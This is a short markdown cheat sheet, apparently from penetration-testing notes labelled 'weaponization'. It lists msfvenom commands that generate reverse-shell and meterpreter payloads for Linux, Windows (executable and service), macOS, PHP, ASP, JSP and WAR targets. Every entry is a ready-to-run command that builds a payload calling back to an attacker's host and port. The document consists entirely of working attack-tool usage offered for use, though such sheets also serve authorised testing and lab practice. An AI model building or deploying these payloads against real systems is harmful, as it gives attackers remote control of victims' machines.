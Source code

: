 
# msfvenom
- serivce: all
- tactics: weaponization

## Linux ELF binary
- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

## Windows EXE binary 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

### 32 Bit
- `msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell32.exe`

### 64Bit
- `msfvenom -a x64 --platform Windows -p windows/x64/meterpreter/reverse_tcp lhost=10.10.12.XX lport=1337 -f exe > shell64.exe`
    
## Windows Service
- `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe-service > shell-service.exe`
    
## Mac
- `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`
    
## PHP 
- `msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > /tmp/shell.php && sed -i 's/#<?php/<?php/' /tmp/shell.php`

> If you use php/reverse_php open the output file with an editor and add `<?php` and `?>` within the script.
    
## ASP 
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`    

## JSP
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`
    
## WAR
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`
    